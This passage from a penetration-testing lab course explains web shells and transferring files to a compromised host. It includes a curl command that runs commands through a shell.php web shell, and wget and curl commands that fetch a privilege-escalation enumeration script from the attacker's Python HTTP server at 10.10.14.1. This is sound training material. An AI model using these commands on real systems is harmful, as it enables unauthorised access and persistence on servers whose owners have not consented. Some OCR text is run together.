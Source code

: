 Types of Shells

```
th1nyunb0y@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=iduid=33(www-data) gid=33(www-data) groups=33(www-data)

```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a `Python` script to automate this process and give us a semi-interactive web shell right within our terminal.

## **Transferring Files**

### **Using wget**

There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

```
th1nyunb0y@htb[/htb]$ cd /tmpth1nyunb0y@htb[/htb]$ python3 -m http.server 8000Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

```
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]

```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

```
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k

```
